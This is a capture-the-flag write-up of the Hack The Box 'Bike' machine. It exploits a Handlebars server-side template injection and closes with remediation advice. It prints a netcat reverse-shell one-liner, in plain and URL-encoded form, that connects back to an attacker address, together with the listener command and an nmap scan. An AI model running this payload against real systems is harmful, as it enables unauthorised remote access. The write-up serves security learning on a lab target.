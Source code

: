 # CTF Write-up — bike from hackthebox.com

> **Summary:** Exploited a Handlebars server-side template injection (SSTI) using `process.mainModule.require` to spawn a reverse shell, escalate to root, and capture the flag.  
> **Difficulty:** Very Easy  
> **HTB:** https://app.hackthebox.com/starting-point
>
![Tactics](https://img.shields.io/badge/Tactics-SSTI%20%7C%20Payload%20Dev%20%7C%20RCE-blue?style=flat-square)
![Tools](https://img.shields.io/badge/Tools-Burp%20%7C%20Nmap-red?style=flat-square)



---

## Table of contents
1. [Reconnaissance](#reconnaissance)
2. [Resource development](#resource-development)
3. [Initial access](#initial-access)
4. [Privilege escalation](#privilege-escalation)
5. [Findings & recommendations](#findings--recommendations)

---

## Reconnaissance

### Port scan
- Performed an `nmap` scan and enumerated open services. See `evidences/nmap.txt`.  
```bash
nmap -sV -sS 10.129.84.44 -oN nmap.txt
```
- Results (high-level):
  - `80/tcp` — HTTP (tcpwrapped)
  - `22/tcp` — SSH

### Template testing & fingerprinting
- Performed simple template tests (e.g. `{{7*7}}`) and observed rendered output.  
- Determined template engine: **Handlebars**: ![SSTI](evidences/server-side_template_injection_output.png)

---

## Resource development

### References and initial exploit idea
- Referenced [HackTricks — SSTI / Handlebars](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars) for RCE idea.

### Payload engineering
- Initial payload from HackTricks failed because `require` was not available in the expected scope: ![burpsuite fixed payload](evidences/burpsuite_payload.png) 
- Adjusted approach to use `process.mainModule.require`: ![burpsuite fixed payload](evidences/fixed_burpsuite_payload.png)

### reverse shell
- we get from [reverse shell generator](https://www.revshells.com/) the reverse shell code to inject as payload:
``` bash
# regular version
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.25 9000 >/tmp/f
# url encode version (the one that will be used)
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.25%209000%20%3E%2Ftmp%2Ff
```

### Listener
- Started a netcat listener to receive the reverse shell:
```bash
nc -lvnp 9000
```

---

## Initial access
- Delivered the payload via Burp Suite and obtained iteractive shell as root: ![root shell](evidences/root_access.png)  
- Retrieved flag:  
![root flag](evidences/flag.png)

---

## Privilege escalation
> *Section intentionally left concise — see `Findings & recommendations` for mitigation and next steps.*

---

## Findings & recommendations
- not necessary in this case, since we accessed directly as `root`.

### Key findings
- The web application was vulnerable to Handlebars SSTI.
- The application environment allowed access patterns enabling remote code execution via template injection.

### Immediate remediation (high-level)
1. **Sanitize/validate** all user-controllable template inputs; avoid directly rendering user-supplied strings as templates.  
2. **Use a safe templating mode** or a sandboxed rendering environment when possible.  
3. **Harden Node.js process permissions** and follow principle of least privilege for app user accounts.  
4. **Update dependencies** and apply platform security best-practices (CSP, input validation, dependency scanning).  
5. **Audit logs** to detect exploitation attempts, and rotate secrets/keys if there was suspected exposure.
